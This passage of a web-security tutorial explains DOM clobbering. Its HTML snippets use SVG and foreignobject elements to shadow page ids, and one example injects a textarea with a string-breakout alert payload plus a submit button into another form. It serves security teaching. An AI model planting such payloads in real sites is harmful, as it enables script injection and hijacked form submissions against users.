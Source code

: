 
Investigations into SVG revealed that a `<body>` tag can also be utilized effectively:

```html
<div style="display:none" id="cdnDomain">example.com</div>
<svg>
  <body id="cdnDomain">
    clobbered
  </body>
</svg>
<script>
  alert(document.getElementById("cdnDomain").innerText) // Clobbered
</script>
```

For the HTML tag to function within SVG in browsers like Chrome and Firefox, a `<foreignobject>` tag is necessary:

```html
<div style="display:none" id="cdnDomain">example.com</div>
<svg>
  <foreignobject>
    <html id="cdnDomain">
      clobbered
    </html>
  </foreignobject>
</svg>
<script>
  alert(document.getElementById("cdnDomain").innerText) // Clobbered
</script>
```

## Clobbering Forms

It's possible to add **new entries inside a form** just by **specifying the `form` attribute** inside some tags. You can use this to **add new values inside a form** and to even add a new **button** to **send it** (clickjacking or abusing some `.click()` JS code):

```html
<!--Add a new attribute and a new button to send-->
<textarea form="id-other-form" name="info">
";alert(1);//
</textarea>
<button form="id-other-form" type="submit" formaction="/edit" formmethod="post">
  Click to send!
</button>
```

- For more form attributes in [**button check this**](https://www.w3schools.com/tags/tag_button.asp)**.**

## References

- [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
- [https://portswigger.net/web-security/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker.

